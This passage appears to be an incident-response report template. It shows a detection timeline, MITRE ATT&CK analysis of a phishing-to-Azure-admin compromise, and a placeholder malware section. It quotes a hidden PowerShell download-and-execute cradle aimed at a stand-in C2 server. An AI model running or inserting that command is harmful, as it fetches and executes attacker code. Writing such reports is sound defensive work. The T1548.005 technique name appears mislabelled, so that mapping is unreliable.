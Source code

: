 #### Discovery and Response (T+48h+)
| Timestamp (UTC) | Source | Event | Significance |
|-----------------|--------|--------|---------------|
| 2024-01-16T15:30:45Z | User report | Suspicious activity reported | Initial detection |
| 2024-01-16T15:45:12Z | Security team | Investigation initiated | Response begins |
| 2024-01-16T16:00:33Z | Azure Portal | Suspicious accounts disabled | Containment actions |
| 2024-01-16T16:15:21Z | Network | Malicious IPs blocked | Network containment |

---

## Technical Analysis

### Attack Vector Analysis

#### Initial Access (MITRE ATT&CK: TA0001)
**Primary Technique:** T1566.001 - Spearphishing Attachment
- **Evidence:** Email attachment analysis shows macro-enabled document
- **Payload:** VBA macro drops PowerShell script to %TEMP%
- **Execution Chain:** Email → Macro → PowerShell → Malware
- **User Interaction:** User clicked "Enable Content" on malicious document

```powershell
# Malicious PowerShell Command Identified
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command "
IEX (New-Object Net.WebClient).DownloadString('http://[C2-server]/payload.ps1')"
```

#### Persistence (MITRE ATT&CK: TA0003)  
**Primary Technique:** T1136.003 - Create Account: Cloud Account
- **Evidence:** New Azure AD user account created: "svc-backup-[random]"
- **Privileges:** Account assigned Global Administrator role
- **Concealment:** Account created during business hours to blend with legitimate activity
- **Persistence Duration:** Account active for [X hours] before detection

#### Privilege Escalation (MITRE ATT&CK: TA0004)
**Primary Technique:** T1548.005 - Abuse Elevation Control: Azure AD
- **Evidence:** Role assignments modified for compromised account
- **Escalation Path:** User → Contributor → Owner → Global Admin
- **Azure Resources:** Gained control over [number] subscriptions
- **Timeline:** Full escalation achieved within [X minutes]

### Malware Analysis

#### File Analysis
**Malicious File:** malware.exe  
**SHA-256:** [hash-value]  
**File Size:** [size] bytes  
**File Type:** Win32 PE Executable  
**Compilation Date:** [date] (potentially timestomped)  
**Packer/Obfuscation:** [analysis of packing/obfuscation]
